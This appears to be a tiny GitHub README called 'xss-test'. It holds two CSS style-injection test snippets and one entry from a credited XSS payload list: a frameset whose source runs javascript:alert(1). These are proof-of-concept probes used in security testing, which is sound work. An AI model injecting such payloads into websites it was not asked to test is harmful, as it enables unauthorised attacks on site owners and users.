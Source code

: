 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->

<FRAMESET><FRAME SRC="javascript:javascript:alert(1);"></FRAMESET>


```

